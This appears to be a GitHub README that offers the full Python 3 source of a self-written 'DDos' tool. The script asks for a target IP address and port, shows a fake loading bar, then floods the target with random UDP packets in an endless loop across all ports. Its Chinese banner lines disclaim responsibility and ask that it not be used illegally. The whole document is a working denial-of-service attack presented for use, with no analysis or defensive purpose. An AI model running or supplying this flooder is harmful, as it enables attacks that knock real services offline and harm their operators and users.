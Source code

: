 # DDos
This is a DDos I created myself, you can use it
This is the source code
The Python 3 version is used
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------
# python3

import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
##############

os.system("clear")
os.system("figlet SHAUN3080 DDos")
print (" ")
print ("Author  :not")
print("github   : https://github.com/shaun3080")
print ("作者    : Shaun ")
print (" ")
print("\033[31m如有犯法，本人概不负责\033[0m")
print (" -----------------[请勿用于违法用途]----------------- ")
print ("维权保护，使用请@博主谢谢 ")
print ("目前只有PYTHON3支持 ")
print (" ")
print (" ")
ip = input("IP 地址 : ")
port = input("端口号       : ")
port = int(port)

os.system("clear")
os.system("figlet SHAUN3080 DDos")
print ("Please give me some time, I need to buffer and load the file, the process is about 40 seconds, thanks for the cooperation. ")
print("[                    ] 0% ")
time.sleep(8)
print("[=====               ] 25%")
time.sleep(8)
print("[==========          ] 50%")
time.sleep(8)
print("[===============     ] 75%")
time.sleep(8)
print("[====================] 100%")
time.sleep(8)
print ("Replicating")
time.sleep(10)
print ("All work is ready to be completed!")
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print("已发送 %s 数据包 %s 通过端口:%s"%(sent,ip,port))
     if port == 65534:
       port = 1


